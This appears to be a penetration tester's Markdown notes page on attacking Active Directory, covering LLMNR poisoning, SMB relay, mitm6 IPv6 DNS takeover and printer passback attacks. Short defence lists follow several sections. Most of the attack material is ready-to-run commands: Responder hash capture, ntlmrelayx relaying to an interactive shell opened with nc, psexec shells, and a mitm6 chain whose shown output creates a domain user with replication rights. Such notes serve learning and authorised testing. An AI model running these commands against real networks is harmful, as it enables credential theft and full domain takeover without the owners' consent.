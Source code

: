 ### Attacking Active Directory

- [password cracking](/password_cracking/README.md)
- [Adam Toscher - Top 5 ways](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

#### LLMNR Poisoning
- Link Local multicast name resoluton
- NETBIOS / DNS
- MITM Type Attack - We respond to the request
- The issue is that username and hash are given with correct response
- Tools
    - Impacket / Responder [Start before nmap and nessus scan]
 


##### LLMNR Poisoning Defense
- Turn off Multicast name resolution 
```
[Local Computer Policy  / Computer Config / Admin Templatesd / Network / DNS Client]
```
- Disable NBT-NS
```
[Network Adapter Properties / TCP Properties / Advanced / Wins / Disable Netbios over TCP/IP ]
```
    Else:
        - Require Network Access Control
        - Strong Passwords



#### Capture NTMLv2 hashes with Responder
```bash
sudo responder -I eth0 -dw 
```

#### SMB Relay Attacks
Instead of cracking hashes, relay credentials instead
- SMB signing needs to be off
- Relayed creds must be admin on machine


```bash
/etc/responder/Responder.conf # SMB = Off / HTTP = Off
python ntlmrelayx.py -ft targets.txt -smb2support
```

> SAM Hashes
Local user hashes / Windows version of ```/etc/passwd``` for local users

#### Discovering Hosts with SMB signing disabled
> Defaults

- Local machines = Off
- Servers = On

> Find via

- nessus scan
- nmap

```bash
sudo nmap --script=smb2-security-mode -p 445 192.168.131.0/24
```

#### Gaining Shell

```
sudo responder -I eth0 -dw
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
sudo nc 127.0.0.1 11000
```

```bash
msfconsole/windows/smb/psexec
    execute -f cmd.exe -i -H

```

### Mitigation
- Enable SMB signing
- Disable NTLM auth
- limit domain / local admins
- LDAP relay
- MiTM6
- difficult to detect




#### IPv6 DNS Takeover

- More reliable
- Probable IPv6 DNS hole
- Authentication to DC via LDAP
- [mitm6:](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [Combining NTLM Relays and Kerberos Delegation:](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

```bash
ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo git clone https://github.com/dirkjanm/mitm6 /opt/mitm6
sudo python3 mitm6.py -d basejump.local

sudo ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo python3 mitm6.py -d basejump.local
```
> Output
```
[*] Adding new user with username: YLzmriDGhj and password: ,JtM/MDi:z1G+OO result: OK
[*] Querying domain security descriptor
[*] Success! User YLzmriDGhj now has Replication-Get-Changes-All privileges on the domain

```

#### IPv6 Attack Defenses

- Disable WPAD WinHttpAutoProxySvc service
- LDAP signing / LDAPS channel binding
- Block Admin Delegation


#### Passback attack
Looking for access to LDAP / SMB / SMTP / Other connections of peripherials

- [Passback attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)
- MFPs = Multi-Function Peripherials [printers]
- Management Pages - LDAP Server = $(AttackingIP)

### Other vectors & approaches

- Start with MitM6 or Responder
- Nessus & nmap scan
    - SMB signing not active
- Run scans and generate traffic
- Listen for clear text creds on other systems
    - phone systems
    - Copier scanner
- Look for Websites [metasploit / http_version]
- Default Logins
    - Printers [scan to computer with admin rights]
    - Work flow applications
- Find unique / unusual methods in





